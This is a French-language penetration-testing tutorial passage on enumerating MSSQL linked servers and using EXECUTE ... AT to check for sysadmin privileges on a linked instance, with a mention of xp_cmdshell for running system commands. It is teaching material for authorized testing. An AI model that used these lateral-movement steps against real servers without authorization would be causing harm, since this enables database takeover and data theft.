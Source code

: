 #### Identifier les serveurs liés dans MSSQL

Identifier les serveurs liés dans MSSQL

```
1> SELECT srvname, isremote FROM sysservers
2> ALLER

nom_serveur est distant
----------------------------------- --------
BUREAU-MFERMN4\SQLEXPRESS 1
10.0.0.12\SQLEXPRESS 0

(2 rangs concernés)

```

Comme nous pouvons le voir dans le résultat de la requête, nous avons le nom du serveur et la colonne `isremote`, où `1` signifie qu'il s'agit d'un serveur distant et `0` est un serveur lié. Nous pouvons voir [sysservers Transact-SQL](https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysservers-transact-sql) pour plus d'informations.

Ensuite, nous pouvons tenter d'identifier l'utilisateur utilisé pour la connexion et ses privilèges. L'instruction [EXECUTE](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql) peut être utilisée pour envoyer des commandes directes aux serveurs liés. Nous ajoutons notre commande entre parenthèses et spécifions le serveur lié entre crochets (`[ ]`).

Identifier les serveurs liés dans MSSQL

```
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> ALLER

------------------------------ -------------------- ---------- ------------------------------ ---------- -
DESKTOP-0L9D4KA\SQLEXPRESS Microsoft SQL Server 2019 (RTM sa_remote 1

(1 lignes concernées)

```

Remarque : Si nous devons utiliser des guillemets dans notre requête au serveur lié, nous devons utiliser des guillemets doubles simples pour échapper au guillemet simple. Pour exécuter plusieurs commandes à la fois, nous pouvons les diviser par un point-virgule (;).

Comme nous l'avons vu, nous pouvons désormais exécuter des requêtes avec les privilèges sysadmin sur le serveur lié. En tant `sysadmin`, nous contrôlons l'instance SQL Server. Nous pouvons lire les données de n'importe quelle base de données ou exécuter des commandes système avec `xp_cmdshell`. Cette section a couvert certaines des façons les plus courantes d'attaquer les bases de données SQL Server et MySQL lors des missions de test d'intrusion. Il existe d'autres méthodes pour attaquer ces types de bases de données ainsi que d'autres, telles que [PostGreSQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql), SQLite, Oracle, [Firebase](https://book.hacktricks.xyz/network-services-pentesting/pentesting- web/buckets/firebase-database) et [MongoDB](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb) qui seront traités dans d'autres modules. Il vaut la peine de prendre le temps de se renseigner sur ces technologies de base de données et sur certains des moyens courants de les attaquer également.